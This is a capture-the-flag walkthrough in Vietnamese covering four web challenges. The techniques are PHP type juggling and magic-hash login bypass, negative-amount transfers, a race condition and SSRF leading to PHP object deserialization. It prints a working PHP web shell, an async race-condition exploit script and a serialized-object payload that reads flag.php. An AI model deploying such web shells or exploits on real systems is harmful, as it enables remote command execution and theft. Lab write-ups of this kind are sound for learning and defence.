 # **Magic shop**

*Mở đầu là 1 form login, mở source:
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/e193728d-cd4d-4f79-a928-534b98ea9903)

-Trong đoạn code trên trang web sẽ lấy username và password bị hash bằng sha256 và kiểm tra điều kiện pasword phải bằng 0 thì mới login được. Mặc dù password đã bị hash nhưng ta vẫn có thể login được. Bởi vì trang web sử dụng sử dụng `==` để so sánh 1 chuỗi với 1 interger nên nó có thể bị 1 lỗ hổng là Type Juggling  
-Khi so sánh một string với một số interger trong PHP, nếu như string bắt đầu bằng một ký tự không phải là số, nó sẽ mặc định là int(0) hoặc các strings bắt đầu với các ký tự là 0e, khi đó các chuỗi được chuyển thành các lũy thừa tương đương đương với int(0)   
-Bên cạnh đó ta có 1 lỗ hổng khác là magic hashes nó xuất hiện do một lỗi trong cách PHP xử lý kiểu dữ liệu khi so sánh chuỗi băm với số nguyên. Nếu một chuỗi băm bắt đầu bằng “0e” . Thế nên ta có thể dễ dàng tìm thấy payload trên mạng    
**nguồn payload** https://github.com/spaze/hashes  
=> qua được phần login

*Phần sau là 1 chức năng upload file và trong source không có chức năng bảo mật gì nên ta chỉ cần upload file webshell lên và và thực hiện tìm flag thôi  
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/591a9e8a-9cd5-4ea1-8d7f-50ef6e20cbf2)

file upload: webshell.php
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```


![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/28f77c09-88d6-4656-b5f5-abfc64c63f1f)

# Be Positive
Bài này chỉ cần lúc chuyển chiền cho tài khoản khác sửa thành số âm là được. sau đó dùng số tiền đó để mua flag

# Slow Down
Bài này trang web tương tự Be Positive, payload nhưng chuyển tiền qua tài khoản khác bằng số âm đã không còn hoạt động ở bài này. Mình nghĩ bài này rất có thể sẽ bị lỗ hổng race condition=> đúng thật là nó ;v

**exploit**
```
import asyncio
import httpx

async def use_code(client):
    resp = await client.post(f'http://slow-down-44f3a156.dailycookie.cloud/?action=transfer', cookies={"PHPSESSID": "e4dbc35e8795f3889acff05a0baff65d"}, data={"amount": "100.849%","recipient":"alice"})
    return resp.text

async def main():
    async with httpx.AsyncClient() as client:
        tasks = []
        for _ in range(20): #20 times
            tasks.append(asyncio.ensure_future(use_code(client)))
        
        # Get responses
        results = await asyncio.gather(*tasks, return_exceptions=True)
        
        # Print results
        for r in results:
            print(r)
        
        # Async2sync sleep
        await asyncio.sleep(0.5)
    print(results)

asyncio.run(main())
```
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/d39804e2-b510-498c-8ec0-794fa3888acb)

# Video Link Extractor
+ Khi thực hiện extract localhost trang web thực hiện đoạn code:
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/96d5c64e-0dd3-4e96-a5d0-9af5e56a98dc)
+ Ta có thể lợi dụng tham số id để gọi đến `redirect ` và khiến nó truy cập vào trang web khác 
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/79b9f246-6418-4b22-b75b-17be148af615)
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/c5e03245-27eb-4c41-827c-0e5d7721603f)
+ Đã thực hiện get vào trang web của mình
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/f61766f4-0e69-4551-8981-a7055e0447ea)

Untrusted data sẽ là response ta trả về, khi đó nó được unserialize  
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/d7d50fe9-c81c-4c3c-90e7-94338d6498a5)
Thêm vào đó object Utils khi __wakeup sẽ gọi $this->_file  
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/fd5ebec4-0a91-4d57-be85-c6bd1333cbe8)
Script tạo serialize data:
```
<?php 
class Utils {
    public $_file = "php://filter/convert.base64-encode/resource=flag.php";
};
echo(serialize(new Utils()));
?>
```
Thay kết quả của script vào response của webhook   
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/3c8e2fb8-eea4-4e69-8fa1-cc04a4516059)

![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/241fcbd6-4164-4401-ad53-41fd4d5bbce0)

![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/7620d7ab-7190-40f5-adc3-e5b2120a418f)


